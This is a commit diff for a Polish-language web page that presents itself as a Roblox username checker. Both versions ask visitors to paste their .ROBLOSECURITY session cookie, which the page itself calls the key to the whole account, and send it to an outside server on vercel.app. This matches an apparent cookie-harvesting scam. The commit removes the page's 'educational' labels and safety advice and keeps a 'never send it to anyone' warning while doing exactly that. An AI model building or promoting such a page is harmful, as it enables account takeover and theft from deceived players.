

Before and after one commit to megosakbi/Checker, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (258-1047 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,163 +3,65 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Roblox – nazwa z .ROBLOSECURITY (edukacja)</title>
+  <title>Roblox – nazwa z .ROBLOSECURITY</title>
   <style>
-    body {
-      font-family: Arial, Helvetica, sans-serif;
-      max-width: 700px;
-      margin: 40px auto;
-      padding: 20px;
-      background: #0f0f1a;
-      color: #e0e0ff;
-      line-height: 1.5;
-    }
-    h2 {
-      color: #a0d0ff;
-      text-align: center;
-    }
-    .warning {
-      background: #4a1a1a;
-      color: #ffcccc;
-      padding: 16px;
-      border-radius: 8px;
-      margin: 20px 0;
-      border-left: 5px solid #ff4444;
-    }
-    textarea {
-      width: 100%;
-      height: 160px;
-      background: #1a1a2e;
-      color: #d0d0ff;
-      border: 1px solid #444466;
-      border-radius: 6px;
-      padding: 12px;
-      font-family: 'Courier New', monospace;
-      font-size: 15px;
-      resize: vertical;
-      margin-bottom: 16px;
-    }
-    button {
-      background: #3366ff;
-      color: white;
-      border: none;
-      padding: 14px 32px;
-      font-size: 17px;
-      border-radius: 6px;
-      cursor: pointer;
-      display: block;
-      margin: 0 auto 24px;
-      transition: background 0.2s;
-    }
-    button:hover {
-      background: #1a4de6;
-    }
-    #result {
-      background: #1a1a2e;
-      border: 1px solid #444466;
-      border-radius: 8px;
-      padding: 20px;
-      min-height: 120px;
-      white-space: pre-wrap;
-      word-wrap: break-word;
-    }
-    .error  { color: #ff6666; font-weight: bold; }
-    .success { color: #66ff99; font-weight: bold; }
-    img.avatar {
-      border-radius: 12px;
-      box-shadow: 0 4px 16px rgba(0,0,0,0.6);
-      max-width: 100%;
-      height: auto;
-    }
-    .avatar-container {
-      display: flex;
-      flex-wrap: wrap;
-      gap: 24px;
-      justify-content: center;
-      margin-top: 20px;
-    }
-    .avatar-box {
-      text-align: center;
-    }
+    body { font-family: Arial, sans-serif; max-width: 600px; margin: 40px auto; padding: 20px; background: #111; color: #eee; }
+    textarea { width: 100%; height: 120px; background: #222; color: #eee; border: 1px solid #444; padding: 12px; font-family: monospace; }
+    button { padding: 14px 32px; background: #1e90ff; border: none; color: white; font-size: 17px; cursor: pointer; margin: 15px 0; }
+    button:hover { background: #0c7ae6; }
+    #result { margin-top: 25px; padding: 20px; background: #1a1a1a; border: 1px solid #444; border-radius: 8px; min-height: 80px; }
+    .error { color: #ff4d4d; }
+    .success { color: #00ff9d; }
   </style>
 </head>
 <body>
 
-<h2>Roblox – nazwa użytkownika z cookie (tylko do celów edukacyjnych)</h2>
+<h2>Pobierz nazwę użytkownika Roblox z cookie</h2>
+<p style="color:#ffcc00;"><strong>OSTRZEŻENIE:</strong> .ROBLOSECURITY to klucz do konta – NIGDY nie wysyłaj go nikomu!</p>
 
-<div class="warning">
-  <strong>WAŻNE – przeczytaj zanim cokolwiek wkleisz!</strong><br><br>
-  • Nigdy nie używaj prawdziwego konta głównego<br>
-  • .ROBLOSECURITY = klucz do całego konta (można ukraść Robux, przedmioty, itd.)<br>
-  • To narzędzie jest tylko demonstracją techniki – nie wysyłaj nikomu swojego cookie<br>
-  • Najlepiej testuj na alt-koncie / fałszywym koncie
-</div>
+<textarea id="cookie" placeholder="Wklej tutaj sam ciąg .ROBLOSECURITY (bez '.ROBLOSECURITY=')"></textarea>
 
-<textarea id="cookie" placeholder="Wklej tutaj .ROBLOSECURITY lub cały kod PowerShell / skrypt..."></textarea>
-
-<button onclick="sprawdz()">Sprawdź profil</button>
+<br>
+<button onclick="sprawdz()">Sprawdź</button>
 
 <div id="result"></div>
 
 <script>
 async function sprawdz() {
-  const inputVal = document.getElementById('cookie').value.trim();
+  const cookieVal = document.getElementById('cookie').value.trim();
   const result = document.getElementById('result');
-
   result.innerHTML = '';
 
-  if (inputVal.length < 100) {
-    result.innerHTML = '<span class="error">Wklej cookie lub cały kod (minimum ~100 znaków)</span>';
+  if (cookieVal.length < 200) {
+    result.innerHTML = '<span class="error">Wklej poprawne cookie!</span>';
     return;
   }
 
-  result.innerHTML = '<i>Sprawdzam... (to może potrwać 3–10 sekund)</i>';
+  result.innerHTML = '<i>Proszę czekać...</i>';
 
   try {
     const resp = await fetch('https://checker-alpha-pink.vercel.app/api/get-username', {
       method: 'POST',
       headers: { 'Content-Type': 'application/json' },
-      body: JSON.stringify({ cookie: inputVal })   // wysyłamy cały wklejony tekst
+      body: JSON.stringify({ cookie: cookieVal })
     });
-
-    if (!resp.ok) {
-      throw new Error(`Błąd serwera: ${resp.status} ${resp.statusText}`);
-    }
 
     const json = await resp.json();
 
     if (json.error) {
       result.innerHTML = `<span class="error">Błąd: ${json.error}</span>`;
-      return;
+    } else if (json.success) {
+      result.innerHTML = `
+        <span class="success">Zalogowano pomyślnie!</span><br><br>
+        <b>Nazwa użytkownika:</b> ${json.username}<br>
+        <b>Display Name:</b> ${json.displayName}<br>
+        <b>User ID:</b> ${json.userId}
+      `;
+    } else {
+      result.innerHTML = '<span class="error">Nieznana odpowiedź serwera</span>';
     }
-
-    if (!json.success) {
-      result.innerHTML = '<span class="error">Nieprawidłowa odpowiedź serwera</span>';
-      return;
-    }
-
-    // Sukces
-    result.innerHTML = `
-      <span class="success">Znaleziono profil!</span><br><br>
-
-      <b>Nazwa użytkownika:</b> ${json.username}<br>
-      <b>Display Name:</b> ${json.displayName}<br>
-      <b>User ID:</b> ${json.userId}<br><br>
-
-      <div class="avatar-container">
-        <div class="avatar-box">
-          <div>Headshot (420×420)</div>
-          <img src="${json.headshot}" class="avatar" alt="Headshot">
-        </div>
-        <div class="avatar-box">
-          <div>Pełny awatar (720×900)</div>
-          <img src="${json.fullbody}" class="avatar" alt="Full body avatar">
-        </div>
-      </div>
-    `;
-  } catch (err) {
-    result.innerHTML = `<span class="error">Błąd połączenia: ${err.message}</span><br>
-                        <small>(otwórz F12 → Console i zobacz szczegóły błędu)</small>`;
+  } catch (e) {
+    result.innerHTML = `<span class="error">Błąd połączenia: ${e.message}</span>`;
   }
 }
 </script>
```
